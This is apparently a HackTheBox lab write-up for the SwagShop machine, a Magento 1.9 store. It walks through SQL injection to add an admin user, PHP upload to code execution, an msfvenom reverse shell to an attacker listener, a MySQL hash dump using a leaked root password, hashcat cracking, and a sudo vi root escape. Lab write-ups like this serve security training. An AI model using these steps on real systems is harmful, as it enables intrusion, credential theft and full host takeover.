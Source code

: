 # SwagShop
SwagShop on HTB.

## Enumeration
Enumeration done with `nmapAutomator` to find initial ports, (22,80) the `gobuster` and `nikto` to enumerate the web application. After inspection, it appears to be a magento online store. Looking over some of the files discovered via directory enumeration it looked to be version 1.9. Found the tool [magescan](https://github.com/steverobbins/magescan.git) which was able to enumerate the version to be 1.9. Furthermore, it enumerate the database username and password.

### gobuster

### nikto

### magescan
```bash
wget https://github.com/steverobbins/magescan/releases/download/v1.12.9/magescan.phar

php magescan.phar scan:all http://10.10.10.140
```

![Version Discovery](img/magescan.png)
![Database Credentials](img/db_creds.png)

###

## Exploitation
Searching through `searchsploit`, there are several exploits targeting magento 1.9.
![Searchsploit](img/searchsploit.png)
Working through the exploits for the version, one at a time.

### 37811.py
This exploit is authenticated RCE. Tested making a test user on the system and it worked (e.g. did not require email verification) so this exploit might be possible.

First issue with the exploit is running python2 on modern kali. Had to manually install several of the dependencies as seen below.

```bash
# install pip
curl https://bootstrap.pypa.io/get-pip.py --output get-pip.py

python2 get-pip.py

pip instal virtualenv

python2 -m virtualenv venv

source venv/bin/activate

# install the dependencies
pip install mechanize
```

The code requires a username and password to be hardcoded into the beginning of the script. In testing, it was discovered there was an issue with the submission form related to the password. This was done after the modification for the username at line 53
```python
br.select_form(nr=0)
br.form.new_control('text', 'login[username]', {'value': username})  # Had to manually add username control.
br.form.new_control('text', 'login[password]', {'value': password})  # Had to manually add username control.
br.form.fixup()
```

However, even after the fix, the exploit did not work as expected.

![Exploit Failure](img/38611.png)

Looking through the code and trying to get it to execute manually, it seems that the exploit logs in with the provided usernames and passwords in the script file then attempts to construct a dynamic query with command injection present. Reading through the exploit, there is an ajax URL it pulls from the login redirect page. Manually running this through burp and inspecting the redirect source code (as captured in burp) only had one reference to ajax, and it was not the full string referenced in the script. This exploit appears to no work for this version.

### 37977.py
This exploit uses an SQL injection to add an administrative user to the system. The script only requires modification to specify the correct host to target. After this was done, it was found to work against the target. The exploit adds the administrative user forme with password forme.

![Exploit Success](img/37977.png)
![Magento Admin Page](img/magento_admin_page.png)

Now, the next step will be to use the administrative access to leverage a web shell. Being lazy, and not wanting to poke around for hours to days in UI, some googling was done with some ideas to try out for this access.

1. Modify/Create a product with a malicious image file (php shell embedded into it in what ever fields are available, or appended to the end), using a double file extension then a direct object reference with a NULL byte `%00` to facilitate code execution.
2. Injection via custom email templates.
3. Adding a custom field for a product which would allow uploading of files, which can have the php file type whitelisted during the setup.

Item 1 was found problematic because the file upload dialogues are flash applets. This approach was abandoned due to the difficulty in setting up flash since its deprecation. This method was documented in several blogs online [here](https://blog.scrt.ch/2019/01/24/magento-rce-local-file-read-with-low-privilege-admin-rights/), [here](https://websec.wordpress.com/2014/12/08/magento-1-9-0-1-poi/), and [here](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper).

As for item 2, there seemed to be no way to inject PHP in a the template where the file extension could be controlled and referenced via a direct object reference. Some indirect references were found however due to the lack of extension, code execution could not be triggered.

Item 3 proved to be the winner of the identified methods. This was executed by modifying one of the products to accept and upload of extension PHP which could then be accessed via a direct object reference to trigger code execution. Discovery of the direct object required some recon and investigation into the endpoints discovered via `gobuster`.

Edit the product to allow the upload of the php script. 
![Editing the Product](img/editing_the_product.png)
To verify, a `phpinfo` script was uploaded to verify execution.
![Ability to Upload a PHP File](img/upload_a_payload.png)
Uploaded the image in the cart, committing it to the web app.
![Added Payloads](img/uploaded_payloads.png)
Upload directory discovered by exploring the directories discovered via `gobuster` during enumeration phase.
![Upload Directory](img/discovered_upload_dir.png)
And finally, code execution
![Code Exec](img/code_exec.png)

Once verified a new reverse shell was generated via `msfvenom`

```bash
msfvenom -p php/reverse_php LHOST=10.10.15.15 LPORT=4040 -o shell.php
```

And a reverse shell to receive

```bash
nc -nlvp 4040
```

And a reverse shell was obtained.
![Reverse Shell](img/reverse_shell.png)

And the flag can be recovered
![Low Priv Flag](img/low_priv_flag.png)

### Revisiting 37811.py
Some additional research online (some items referencing this specific box as well), indicates that this exploit is usable here. Issue before was it did not indicate it targets the administrative interface in any of its notes. It was tested against the 'store user' login interface before and verified that the 'ajax' string it is searching for was not present on the returned page; required to continue the exploit for the script. This was again tried targeting the admin interface (`index.php/admin`). The script advanced further, however the last stage, setting up the `tunnel`, did not work. The tag it was looking for on the response page was verified as not present. 

TODO - Test this further based on the offical writeups.

## Privilege Escalation
As seen in the above screenshot, the shell landed (as expected) as user `www-data`. Doing some of the basic enumeration of the host reveals the running processes (`ps -ef --forest`), the other listening network services (`netstat -tupan`) and kernel version (`uname -a`). Based on these basic steps, it can be seen that mysql is running. Earlier, in `http://10.10.10.140/app/etc/local.xml`, the database root password was obtained. This can be used to pillage additional information out of the database `swagshop`.

### MYSQL
Mysql was numerated with the mysql binary and pulling off the admin users with their username and password hashes.

```bash
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; show tables;" | grep user
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; describe admin_user;"
mysql -u root -pfMVWh7bDHpgZkyfqQXreTjU9 -e "use swagshop; select username,password FROM admin_user;"
username	password
haris	8512c803ecf70d315b7a43a1c8918522:lBHk0AOG0ux8Ac4tcM1sSb1iD5BNnRJp
forme	0a8335493c9fccd648ba53c601e3d67c:rp
```

Doing some research on google, the hash format is `HASH:SALT` and the hash is generated via `MD5(salt+password)`. Taking these and tossing into `hashcat` to try and crack for additional credentials with the rockyou wordlist.

```
hashcat.exe -m20 -a0 swag_hashes.txt rockyou.txt
```

The crack session finished quickly and did not uncover a password for the user `haris`. Several other wordlists were cycled in and not results still. Seems this password was not meant to be part of the process.

### LinEnum
Time to do an indepth assessment of the hosts. The host does not have internet access so `LinEnum.sh` will need to side loaded into the machine. While it was downloading, the basic user capabilities were enumerated via the etc file by checking access to `passwd`, `shadow` and `sudoers`. Suprisingly, `sudoers` has some very useful information.

![Sudoers File](img/sudoers.png)

The file indicates the current user (`www-data`) can run `vi` with no password as root as long as it is targeting the `/var/www/html` folder. `vi` has the [ability to break out into a shell](https://gtfobins.github.io/gtfobins/vi/#sudo), so all that is required is to run the command below to break out into a root shell.

```bash
sudo /usr/bin/vi /var/www/html/test.sh
:!sh
```

![Root Shell](img/root.png)